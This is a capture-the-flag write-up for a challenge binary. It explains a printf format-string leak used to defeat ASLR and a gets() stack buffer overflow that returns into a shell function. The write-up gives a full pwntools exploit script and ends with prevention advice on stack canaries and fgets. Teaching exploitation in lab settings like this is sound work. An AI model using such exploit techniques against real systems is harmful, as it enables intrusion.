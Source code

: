 # First thoughts:
The program expects 2 user inputs. After looking at the provided source code I saw that the inputs are provided via a `gets` and all the text is printed via `printf`. So here is a possible BufferOverflow because gets doesn't check the buffer size provided and writes however long the input is to the stack.  Because of the `printf ` it is feasible to use a StringFormatExploit.
The last step is to get a shell, Luckily the function `WINgardium_leviosa` is provided which calls the shell.
With the program checksec I also noticed that there are no stack canaries.

# The Exploit:
First I created a small python script with pwntools. The script would start the program and wait for the string `Enter your witch name:`  after that the program expects a user input. So the script would send a string containing `%p` 42 times and between a `|`. Because I knew from the source that the given witch name would be printed directly with `printf`. I knew that if I send `%p` the program would leak the next 42 addresses from the stack. Now I attach gdb to the program and with the command `vmmap` I see at which address my program starts and ends. If I now compare this with the output I got from my input. I notice that the 38th value is inside my programs address space (e.g. 0x561e3b1b3b21). With this knowledge I can now defeat ASLR normally this randomizes the addresses at which the program and its libraries get loaded. But now I can get an address from inside the programs address space and because the methods inside the program have a constant relative address I now searches for the `WINgardium_leviosa` function and copied the address (e.g. 0x561e3b1b39ec). So the distance between is 0x561e3b1b3b21-0x561e3b1b39ec=0x135, so I know if I add 0x135 to the 38th value I get the start of the `WINgardium_leviosa` function.
Now I need to know where the `AAAAAA` functions return pointer is located. To get this I rewrite my python script so it waits for the string `enter your magic spell:` and then it sends `Expelliarmus\x00` concatenated with `cyclic(0xff)`. I first need to send `Expelliarmus` because in the source I can see that if the input doesn't match it then the program just exits and because strings are null terminated I send a null byte with it. After that I send a sequence of chars generated by pwntools. This sequence is special as every part can be recognized by only 4 chars. Now starting the script attaching gdb and waiting. There is a Segmentation Fault. But I also see that the program tried to jump to an address which starts with the chars `cnaa`. So now I know if I replace `cyclic(0xff)` by `"A"*cyclic_find("cnaa")` then the next thing overwrites the return address. Here I now could write the address of the `WINgardium_leviosa` functions start.
But because of the BufferOverflow the stack got unaligned. To align it I just need to make a simple return in front of that. So I have to get an address to a return e.g. the return address of the  `WINgardium_leviosa` function is 0x561e3b1b3a22 and calculate the distance to the start of the `WINgardium_leviosa` function (0x561e3b1b39ec-0x561e3b1b3a22=0x36).
Now I can create the final payload. First `"Expelliarmus\x00"` then the padding `"A"*cyclic_find("cnaa")` after that the address to the return and after that the start address of the `WINgardium_leviosa` function.
At the end the script looks like this:
```
from pwn import *

p = process("./pwn1")
#p = remote("hax1.allesctf.net", 9100)
FORMATSTRING = "|".join(["%p" for _ in xrange(0,42)])
MAIN_TO_WIN_OFFEST = 0x135

p.recvuntil("Enter your witch name:")
p.sendline(FORMATSTRING)

LEAKS = p.recvuntil("enter your magic spell:").split("|")
MAIN = int(LEAKS[-4], 16)

log.info("Leaked return value 0x{:x}".format(MAIN))
WIN = MAIN-MAIN_TO_WIN_OFFEST
RET = WIN+0x36

raw_input("attach gdb")
PADDING = "A"*cyclic_find("cnaa")
p.sendline("Expelliarmus\x00" + PADDING + p64(RET) + p64(WIN))
p.interactive()
```
Now that I got a bash just execute `cat flag` and the flag is printed out.
To get the real flag just change the attached program to the server and execute.

# Prevention:
The problem is that there are no Canary Values and that the user input is not sanitized.
If there where Canary Values the exploit would be harder. If the input got sanitized and a safe alternative for `gets` would be used like `fgets` then it wouldn't be possible to overwrite the return value.
